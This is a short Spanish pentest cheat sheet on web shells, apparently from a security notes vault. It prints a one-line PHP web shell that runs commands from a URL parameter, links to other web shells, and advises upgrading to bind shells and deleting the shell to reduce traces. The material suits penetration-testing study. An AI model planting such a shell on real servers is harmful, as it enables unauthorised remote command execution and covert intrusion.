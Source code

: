 ```yaml
---
aliases:
tags:
  - type/cheatsheet
primary categories:
  - "[[Penetration Test]]"
secondary categories:
  - "[[Pre-Exploitation]]"
tertiary categories:
  - "[[Payload Generation]]"
type: CheatSheet
linked:
---
```

# Web Shells

***

## Cheatsheet

| **Acción**                                                                                         | **Descripción**                                                                                                       |
| -------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------- |
| `<?php echo system($_GET["cmd"]); ?>`<br><br>Uso: <br>`http://target.com/shell.php?cmd=id`<br><br> | Webshell PHP simple.<br><br>Sin ninguna protección por contraseña.                                                    |
| <br><br>https://github.com/0xDLB/Protected-PHP-Web-Shell                                           | Webshell PHP con protección por contraseña. <br>La contraseña está definida en la línea 11.<br><br>                   |
| <br>https://github.com/samratashok/nishang/tree/master/Antak-WebShell                              | Antak es una webshell para ASP.Net en objetivos Windows. <br><br>Usuario y contraseña están definidos en la línea 14. |

---

## Overview

Un **web shell** es una interfaz accesible desde el navegador que nos permite **ejecutar comandos** en el sistema operativo del servidor web.

**Algunas consideraciones importantes:**

- Algunas aplicaciones web **eliminan archivos automáticamente** después de un período determinado.
- Los **web shells** son **menos potentes** que las reverse shells.
- Es más probable que **dejen evidencia** del ataque.
- Si quedan sin protección, un web shell podría ser **accedido y usado por otra persona**.

Después de conseguir **RCE**, puede ser recomendable actualizar a [[Bind Shells]] para conseguir mayor capacidad y luego **eliminar el web shell** para reducir rastros.